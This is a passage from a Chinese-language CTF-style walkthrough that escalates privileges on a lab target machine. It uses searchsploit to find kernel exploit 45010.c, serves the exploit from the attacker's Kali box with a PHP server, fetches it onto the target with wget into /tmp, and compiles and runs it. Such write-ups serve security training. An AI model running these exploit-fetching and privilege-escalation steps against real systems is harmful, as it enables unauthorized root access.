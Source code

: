 这是一个比较旧的版本, 很可能有突破点, 用 `searchsploit` 搜索对应版本漏洞:

![12.png](12.png)

后两个都是提权漏洞, 这里就选第二个了,拷贝脚本并编译:

```bash
searchsploit -m 45010.c
sudo gcc 45010.c -o 45010
```

然后在 kali 的80端口上开启文件传输服务, 并使用靶机的 bash 来接收

>   `Kali`:
> 
>   ```bash
>   sudo php -S 0:80
>   ```

>   `靶机`:
>       这里转到了 `/tmp` 目录下, 因为这个目录通常不需要 root 权限来读写。
>   ```bash
>   cd /tmp
>   wget http://192.168.170.135/45010.c
>   ```

![13.png](13.png)

此时靶机上可能还没有足够的权限来执行, 可以用 45010.c 再编译一次试试:

```bash
gcc 45010.c -o 45010-2
./45010-2
```

---